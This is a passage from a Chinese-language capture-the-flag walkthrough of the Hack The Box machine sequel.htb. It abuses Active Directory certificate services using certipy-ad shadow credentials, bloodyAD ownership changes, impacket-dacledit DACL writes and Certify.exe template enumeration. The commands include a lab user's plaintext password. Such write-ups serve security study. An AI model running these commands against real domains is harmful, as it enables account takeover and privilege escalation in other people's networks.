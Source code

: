 伪造证书的过程：

1. 需要有一个本地账户用于被伪造，一般来说certipy-ad在auto模式创建影子账户时会尝试获取TGT票据，获取了TGT会自动获取到NTLM，其实也可以手动获取NTLM去设置
2. 需要知道证书模板，根据证书模板的所有权和能行使的权利进一步利用。制作好的证书上传到靶机进一步利用

```bash
certipy-ad shadow auto -u 'ryan@sequel.htb' -p 'WqSZAF6CysDQbGb3' -account 'ca_svc' -target 10.10.11.51 -dc-ip 10.10.11.51 -ns 10.10.11.51
```

可以看出尝试获取TGT时报错：Clock skew too great，时钟差异太大。

>**"Clock skew too great"** 错误通常是由于 **Kerberos** 身份验证过程中 **客户端** 和 **KDC**（Key Distribution Center，密钥分发中心）之间的时钟差异过大导致的。Kerberos 协议对时钟的同步非常敏感，通常要求客户端和服务器的时间差异不能超过一定的阈值（通常是 5 分钟）

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250320055753031.png)

把本地时钟和靶机同步：

```bash
ntpdate 10.10.11.51
```

再次执行：

```bash
certipy-ad shadow auto -u 'ryan@sequel.htb' -p 'WqSZAF6CysDQbGb3' -account 'ca_svc' -target 10.10.11.51 -dc-ip 10.10.11.51 -ns 10.10.11.51
```

以上命令出现会由于时间流逝靶机定时检查而出现问题（HTB重置环境），建议从bloodyAD设置所有权开始重新执行一遍，直到TGT获取成功

```bash
bloodyAD -d 10.10.11.51 --dc-ip 10.10.11.51 --dns 10.10.11.51 -u 'ryan' -p 'WqSZAF6CysDQbGb3' set owner 'ca_svc' 'ryan'
impacket-dacledit -action 'write' -principal 'ryan' -target 'ca_svc' '10.10.11.51/ryan:WqSZAF6CysDQbGb3'
ntpdate 10.10.11.51
certipy-ad shadow auto -u 'ryan@sequel.htb' -p 'WqSZAF6CysDQbGb3' -account 'ca_svc' -target 10.10.11.51 -dc-ip 10.10.11.51 -ns 10.10.11.51
```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250320060531895.png)

现在有ca_svc的本地影子账户能用了

证书模板之所以叫模板，是有固定格式的，可以进行爆破知道用的什么模板。上传Certify爆破靶机域内证书模板：

Certify.exe：https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Certify.exe

evil-winrm提供了upload命令上传文件

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250320063240935.png)

枚举域内证书模板：

```bash
.\Certify.exe find /domain:sequel.htb
```
